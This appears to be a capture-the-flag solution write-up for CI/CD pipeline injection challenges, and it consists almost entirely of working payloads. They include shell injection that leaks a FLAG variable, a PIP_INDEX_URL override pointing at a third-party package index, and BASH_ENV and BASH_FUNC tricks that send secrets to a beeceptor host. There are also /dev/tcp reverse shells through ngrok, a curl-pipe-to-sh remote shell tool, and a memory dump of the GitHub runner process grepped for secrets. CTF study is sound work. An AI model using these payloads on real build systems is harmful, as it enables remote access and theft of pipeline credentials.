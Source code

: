 # Chall 1
 
``` bash
Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
```
 
# Chall 2

[PIP environment variables doc](https://pip.pypa.io/en/latest/cli/pip_install/) PIP_<UPPER_LONG_NAME>
[Pypi PyYAML](https://pypi.org/project/PyYAML/)
[Cloudsmith](https://cloudsmith.io/~nebco/packages/)
``` bash
Not a release :(
PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
```

# Chall 3

## Solution 1
[Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
[Beeceptor](https://beeceptor.com/)
[Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)
 
``` bash
Not a release :(
BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
```

## Solution 2
``` bash
Not a release :(
BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
```
 
# Chall 4
 
## Setup (client side)
 
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload
 
``` bash
$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's investigate!
 
The directory `/home/runner/work/_temp` look interesting...
 
# Chall 5
 
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload
 
``` bash
; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's dump!
 
### Let's check those secrets
 
``` bash
sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
```

 